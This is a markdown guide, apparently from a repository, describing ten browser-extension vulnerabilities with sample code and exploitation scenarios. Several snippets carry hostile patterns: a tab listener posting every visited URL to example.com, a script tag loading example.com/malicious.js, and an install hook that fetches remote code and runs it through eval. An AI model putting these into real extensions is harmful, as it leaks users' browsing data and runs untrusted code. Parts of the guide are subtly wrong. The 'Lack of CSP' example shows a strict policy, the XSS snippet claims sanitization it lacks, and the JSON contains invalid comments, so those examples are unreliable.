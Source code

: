 # Browser Extension Security Vulnerabilities
This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.
## 1. Permissions Overreach
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ],
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.
## 2. Data Leakage
Vulnerable Code Example:
```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.
Exploitation Scenario:
An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.
## 3. Cross-Site Scripting (XSS)
Vulnerable Code Example:
```javascript
// User input retrieval with sanitization
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // Consider sanitizing user input to prevent XSS
```
Exploitation Scenario:
User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.
## 4. Insecure Communication
Vulnerable Code Example:
```javascript// User input retrieval with sanitization
fetch('http://example.com/api/data')
  .then(response => response.json()) // Ensure to handle the response
  .catch(error => console.error('Error fetching data:', error));
```
Exploitation Scenario:
Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.
## 5. Code Injection
Vulnerable Code Example:
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js'; // Avoid loading scripts from untrusted sources
document.body.appendChild(script);
```
Exploitation Scenario:
If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.
## 6. Malicious Updates
Vulnerable Code Example:
```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval) // Using eval is potentially unsafe; consider alternatives
    .catch(error => console.error('Error loading script:', error));
});
```
Exploitation Scenario:
If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.
## 7. Third-Party Dependencies
Vulnerable Code Example:
```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0" // Consider updating to a secure version
  }
}
```
Exploitation Scenario:
An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.
## 8. Lack of Content Security Policy (CSP)
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.
## 9. Insecure Storage
Vulnerable Code Example:
```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
Exploitation Scenario:
If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.
## 10. Insufficient Privacy Controls
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy." // Ensure to provide a privacy policy
}
```
Exploitation Scenario:
Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
